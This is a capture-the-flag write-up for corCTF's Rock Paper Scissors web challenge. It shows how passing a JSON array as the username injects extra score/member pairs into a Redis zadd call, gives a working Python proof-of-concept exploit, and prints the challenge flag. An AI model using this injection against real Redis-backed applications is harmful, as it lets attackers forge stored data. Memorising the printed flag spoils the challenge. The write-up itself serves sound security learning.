

# Rock Paper Scissors challenge
## Initial recon
As with every challenge, I started by inspecting the Dockerfile. I couldn't find anything particularly interesting as it was only downloading the required packages for the web app.
```dockerfile
FROM node:20-bookworm-slim

WORKDIR /app

COPY package.json package-lock.json ./
RUN npm i

COPY . .

CMD ["node" ,"index.js"]
```
Next, I checked the package.json file to see which packages were being used and to determine if any were outdated. This has become a habit of mine ever since a few previous CTF challenges I participated in used outdated packages that had vulnerabilities. Therefore, it's a good practice to check and ensure that all packages are up to date.

The package.json file looked like this, and at the time of the CTF, all the packages were up to date:
```json
{
  "dependencies": {
    "@fastify/cookie": "^9.3.1",
    "@fastify/jwt": "^8.0.1",
    "@fastify/static": "^7.0.4",
    "fastify": "^4.28.1",
    "ioredis": "^5.4.1"
  },
  "type": "module"
}
```
From here, I opened the app in my browser to see what it was about. I entered a username and started playing. After I lost, I went to the scoreboard and saw that there was already a player with a score of 1336, which was quite interesting. After that, I opened the index.js file because I was curious about how the games were stored and where the flag was located. Immediately, I noticed a route /flag and decided to investigate further.
```js
app.get('/flag', async (req, res) => {
	try {
		await req.jwtVerify();
	} catch (e) {
		return res.status(400).send({ error: 'invalid token' });
	}
	const score = await redis.zscore('scoreboard', req.user.username);
	if (score && score > 1336) {
		return res.send(process.env.FLAG || 'corctf{test_flag}');
	}
	return res.send('You gotta beat Fizz!');
})
```
I should mention that before this CTF, I didn't have any experience working with Redis. So, I referred to their [quick start guide](https://redis.io/docs/latest/develop/get-started/), which I found very useful. If you are new to Redis, I recommend going through this guide before continuing with this write-up.


At first glance, it seemed pretty straightforward. It verifies the JWT token and retrieves the user's score from the scoreboard.
When the score is retrieved, it checks if it is strictly greater than 1336, meaning the score needs to be at least 1337. I wondered if I could somehow impersonate the user with a score of 1336 and score just one more point to capture the flag. However, looking at the /new route, we can see that each game starts with a score of 0, and when you lose, the game's score gets updated on the scoreboard, removing the old score.

```js

app.post('/new', async (req, res) => {
	const { username } = req.body;
	const game = randomBytes(8).toString('hex');
	await redis.set(game, 0); //new game is being created
	return res.setCookie('session', await res.jwtSign({ username, game })).send('OK');
});

app.post('/play', async (req, res) => {
    //Whole function is not included, look at the source
    //It gets the value of the game and it deletes that entry in the database
    const score = await redis.getdel(game);
    //...
    //later it stores the score in scoreboard and associates it with that username.
    await redis.zadd('scoreboard', score, username);
    //...
	}
});
```
So essentially, there is no way to achieve a score of 1337 without great luck. However, it's good that we can make our own luck!
## Trying to figure out how to approach the problem

After examining the code, I considered two options: either I had to update the number in the database associated with the game or enter a username with a score higher than 1336.

Let's explore both options.

### 1. Injecting Inside the Game

To inject a number into that specific game, it has to be before you lose, since the entry is deleted upon losing. The only times this entry is accessed are when the user and their game are created with `await redis.set(game, 0);` and when you either win or lose.

- When you win: `const score = await redis.incr(game);`
- When you lose: `const score = await redis.getdel(game);`

It's important to note that the game variable is a random string generated when you start a new game, so you essentially don't control any part of this process. You don't know where the data is coming from or where it's being stored. Moreover, there is no way to massively increase the game's value since it is only incremented by one when you win.

So, this approach is off the table.

### 2. Injecting Inside the Scoreboard

To inject something into the scoreboard, we need to check if there is any place where our input is used to store or retrieve data from the scoreboard.

And, wouldn't you know it, there is one line where data is inserted into the scoreboard using the player's username: `await redis.zadd('scoreboard', score, username);`. I immediately thought to myself, "This is where we strike."

However, I didn't know how to approach the problem since I had never dealt with a Redis database before. So, I guess that's next on the list.

## Exploiting

Note: If, like me, you are new to Redis, I recommend you read more about the [Redis zadd function](https://redis.io/docs/latest/commands/zadd/) and [Redis sorted sets](https://redis.io/docs/latest/develop/data-types/sorted-sets/) before moving on with the rest of this write-up.

When a user is added to the scoreboard using zadd, an interesting feature of zadd is that it allows you to specify multiple score/member pairs. This is exactly what I needed. Now I just needed to find a way to inject multiple members and their respective scores using the username.

Before trying various payloads, I wanted to see how requests are sent to the route. This is where the static files were very helpful:
```js
const start = async username => {
	const res = await (await fetch('/new', {
		method: 'POST',
		headers: { 'Content-Type': 'application/json' },
		body: JSON.stringify({ username })
	})).text();

	if (res != 'OK') {
		alert('failed to start game: ' + res);
		return;
	}
}
```
With this code in mind, I could try different payloads to see what worked and what didn’t. So, I set up Redis locally and was ready to start fuzzing.

Fortunately, I didn't need to fuzz extensively. When I checked the documentation for the [ioredis zadd function](https://redis.github.io/ioredis/classes/Redis.html#zadd), I discovered that you can specify an array of numbers, strings, or Buffers. I decided to test injecting an array inside the username. I quickly created this script:
```js
import Redis from 'ioredis';
const redis = new Redis(6379, "127.0.0.1");
await redis.zadd('scoreboard', 1336, 'FizzBuzz101');
var username = ['test', 1337, 'pwned'];
username = JSON.stringify(username);
await redis.zadd('scoreboard', 0, username);
const result = await redis.zrevrange('scoreboard', 0, 99, 'WITHSCORES');
console.log(result);
```
And I was met with a pleasant surprise—it worked! Because I was in a hurry, I started the app locally again, entered the debugger, stopped the program right before the start function was executed, and supplied my payload. I lost a game, went to the scoreboard, and again—it worked!


Here is my Proof of Concept (PoC):
```python explot.py
import requests, json, sys
from urllib import parse

def setup_exploit(url):
    exploit_setup = requests.post(
        parse.urljoin(url, '/new'),
        data=json.dumps({'username': ["sad", 1337, "pwned"]}),
        headers={'Content-Type': 'application/json'})
    try:
        exploit_setup.raise_for_status()
    except requests.exceptions.HTTPError as err:
        print('ERROR' + str(err))
        sys.exit(1)

    state = 'unkown'
    while (state != 'end'):
        injection = requests.post(
            parse.urljoin(url, '/play'),
            cookies=exploit_setup.cookies,
            headers={'Content-Type': 'application/json'},
            data=json.dumps({'position': '📃'}, ensure_ascii=False).encode('utf8'))
        resp_json_data = json.loads(injection.text)
        state = resp_json_data.get('state')
        try:
            injection.raise_for_status()
        except requests.exceptions.HTTPError as err:
            print('ERROR' + str(err))
            sys.exit(1)


def pwn():
    setup_exploit(str(sys.argv[1]))
    pwned_user = requests.post(
        parse.urljoin(str(sys.argv[1]), 'new'),
        headers={'Content-Type': 'application/json'},
        data=json.dumps({'username': 'pwned'}))
    pwn = requests.get(
        parse.urljoin(str(sys.argv[1]), '/flag'),
        cookies=pwned_user.cookies)
    print(pwn.text)


pwn()
```

The flag corctf{lizard_spock!_a8cd3ad8ee2cde42} is an awesome Easter egg related to The Big Bang Theory.

## Conclusion

This challenge was quite difficult for me as it was my first time working with Redis. Nonetheless, it was a very enjoyable challenge and helped me learn a lot about Redis.